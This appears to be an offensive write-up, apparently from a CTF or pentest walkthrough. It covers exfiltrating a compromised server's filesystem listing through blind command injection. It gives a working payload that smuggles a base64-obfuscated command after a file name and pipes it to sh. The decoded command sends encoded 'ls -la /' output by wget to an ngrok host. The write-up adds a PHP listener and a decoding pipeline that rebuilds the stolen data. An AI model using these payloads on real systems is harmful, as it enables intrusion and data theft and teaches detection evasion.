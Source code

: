 
## Navigating and Exploring the Filesystem
In the process of exfiltrating sensitive data from a compromised system, effectively mapping the filesystem is a crucial step foran attacker seeking to uncover valuable information. 

Using this command which systematically enumerate the contents of the root filesystem, encode that information in Base64 to obfuscate it, and send each encoded line to a remote server using wget. This approach can be part of an exfiltration strategy, allowing an attacker to stealthily transfer sensitive filesystem information without raising immediate alarms. The use of Base64 encoding helps reduce the likelihood of detection in network traffic by making the transmitted data less readable.

Initial command
```
ls -la / | base64 | while read line; do wget "http://0b0e-41-74-120-172.ngrok-free.app/${line}"; done
```
base64 encoded command
```
bHMgLWxhIC8gfCBiYXNlNjQgfCB3aGlsZSByZWFkIGxpbmU7IGRvIHdnZXQgImh0dHA6Ly8wYjBlLTQxLTc0LTEyMC0xNzIubmdyb2stZnJlZS5hcHAvJHtsaW5lfSI7IGRvbmU=
```

Final Payload
`backup.bak;` initiates an attempt to create a backup while allowing multiple commands to be executed sequentially using a `semicolon`. Next, the echo command outputs a Base64 encoded initial payload, This output is piped into `base64 -d`, decoding it back to its original form for execution. Finally, the command is run via the shell (`sh`), allowing  arbitrary commands execution on the server without any direct feedback.

```
backup.bak; echo bHMgLWxhIC8gfCBiYXNlNjQgfCB3aGlsZSByZWFkIGxpbmU7IGRvIHdnZXQgImh0dHA6Ly8wYjBlLTQxLTc0LTEyMC0xNzIubmdyb2stZnJlZS5hcHAvJHtsaW5lfSI7IGRvbmU= | base64 -d | sh
```
Saving the output of PHP server to the file.
```
php -S 0.0.0.0:8888 -t . > filesystem.log 2>&1
```

![image](https://hackmd.io/_uploads/S1OumpJWyg.png)

This is how the request made from the victim server to our Ngrok and PHP server looks like
![image](https://hackmd.io/_uploads/SkGIXTy-kx.png)



![image](https://hackmd.io/_uploads/rJ6r4pybke.png)

Using this command we can processes a log file (`filesystem.log`) that contains HTTP request entries, extracting the paths of all GET requests, cleaning them up by removing newlines and slashes, and finally formatting the output to prepare it for Base64 decoding.The overall result will be a decoded string that represents the concatenated paths of all GET requests made which is the output of the command we sent (`ls -la`)

[more details](https://explainshell.com/explain?cmd=sed+-n+%27s%2F.*GET+%5C%28%5B%5E+%5D*%5C%29+-+.*%2F%5C1%2Fp%27+filesystem.log+%7C+tr+-d+%27%5Cn%27+%7C+tr+-d+%27%2F%27+%7C+sed+%27s%2F+%2F%5C%5Cn%2Fg%27+%7C+base64+-d)

